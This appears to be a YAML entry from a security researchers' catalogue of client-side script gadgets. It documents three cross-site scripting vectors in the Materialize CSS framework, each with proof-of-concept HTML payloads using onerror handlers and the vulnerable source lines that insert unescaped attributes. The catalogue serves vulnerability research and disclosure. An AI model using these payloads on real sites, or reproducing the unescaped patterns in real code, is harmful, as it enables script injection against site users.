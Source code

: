 ```yaml
---
description: Materialize, a CSS Framework based on Material Design.
github: Dogfalo/materialize
gadgets:
  Latest (1):
    authors:
      - twitter:kevin_mizu
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - class-attr
      - data-attr
      - before-func-call
    pocs:
      - description: A `M.Tooltip.init` call is required on a user controlled node with a `hover` interaction.
        code: |
          <!-- user input -->
          <x class="tooltipped" data-tooltip="<img src=x onerror=alert(document.domain)>">Hover me</x>

          <script src="https://cdnjs.cloudflare.com/ajax/libs/materialize/1.0.0/js/materialize.min.js"></script>
          <script>
              var elems = document.querySelectorAll(".tooltipped");
              var instances = M.Tooltip.init(elems);
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/Dogfalo/materialize/blob/824e78248b3de81e383445e76ffb04cc3264fe7d/js/tooltip.js#L284">https://github.com/Dogfalo/materialize/blob/824e78248b3de81e383445e76ffb04cc3264fe7d/js/tooltip.js#L284</a>

      ```javascript
      _getAttributeOptions() {
        let attributeOptions = {};
        let tooltipTextOption = this.el.getAttribute('data-tooltip');
        let positionOption = this.el.getAttribute('data-position');

        if (tooltipTextOption) {
          attributeOptions.html = tooltipTextOption;
        }

        if (positionOption) {
          attributeOptions.position = positionOption;
        }
        return attributeOptions;
      }
      ```
    links:
  Latest (2):
    authors:
      - twitter:kevin_mizu
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - select-tag
      - optgroup-tag
      - label-attr
      - before-func-call
    pocs:
      - description: A `M.FormSelect.init` call is required on a user controlled node.
        code: |
          <!-- user input -->
          <select>
              <optgroup label="<img src=x onerror=alert(document.domain)>"></optgroup>
          </select>

          <script src="https://cdnjs.cloudflare.com/ajax/libs/materialize/1.0.0/js/materialize.min.js"></script>
          <script>
              var elems = document.querySelectorAll("select");
              M.FormSelect.init(elems);
          </script>
      - description: With [jQuery](https://github.com/jquery/jquery) it would looks like this.
        code: |
          <!-- user input -->
          <select>
              <optgroup label="<img src=x onerror=alert(document.domain)>"></optgroup>
          </select>

          <script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
          <script src="https://cdnjs.cloudflare.com/ajax/libs/materialize/1.0.0/js/materialize.min.js"></script>
          <script>
            $(document).ready(function(){
                $('select').formSelect();
            });
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/Dogfalo/materialize/blob/824e78248b3de81e383445e76ffb04cc3264fe7d/js/select.js#L209">https://github.com/Dogfalo/materialize/blob/824e78248b3de81e383445e76ffb04cc3264fe7d/js/select.js#L209</a>

      ```javascript
      } else if ($(el).is('optgroup')) {
        // Optgroup.
        let selectOptions = $(el).children('option');
        $(this.dropdownOptions).append(
          $('<li class="optgroup"><span>' + el.getAttribute('label') + '</span></li>')[0]
        );

        selectOptions.each((el) => {
          let optionEl = this._appendOptionWithIcon(this.$el, el, 'optgroup-option');
          this._addOptionToValueDict(el, optionEl);
        });
      }
      ```
  Latest (3):
    authors:
      - twitter:kevin_mizu
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - select-tag
      - optgroup-tag
      - label-attr
      - before-func-call
    pocs:
      - description: The [Materialize](https://github.com/Dogfalo/materialize) library uses the `data-icon` attribute to load additional images without escaping user input in the `src` attribute. A `M.FormSelect.init` call is required on a user controlled node.
        code: |
          <!-- user input -->
          <select>
              <option data-icon='x"onerror="alert(document.domain)'></option>
          </select>

          <script src="https://cdnjs.cloudflare.com/ajax/libs/materialize/1.0.0/js/materialize.min.js"></script>
          <script>
              var elems = document.querySelectorAll("select");
              M.FormSelect.init(elems);
          </script>
      - description: With [jQuery](https://github.com/jquery/jquery) it would looks like this.
        code: |
          <!-- user input -->
          <select>
              <option data-icon='x"onerror="alert(document.domain)'></option>
          </select>

          <script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
          <script src="https://cdnjs.cloudflare.com/ajax/libs/materialize/1.0.0/js/materialize.min.js"></script>
          <script>
            $(document).ready(function(){
                $('select').formSelect();
            });
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/Dogfalo/materialize/blob/824e78248b3de81e383445e76ffb04cc3264fe7d/js/select.js#L335">https://github.com/Dogfalo/materialize/blob/824e78248b3de81e383445e76ffb04cc3264fe7d/js/select.js#L335</a>

      ```javascript
      let iconUrl = option.getAttribute('data-icon');
      if (!!iconUrl) {
        let imgEl = $(`<img alt="" src="${iconUrl}">`);
        liEl.prepend(imgEl);
      }
      ```
---
```

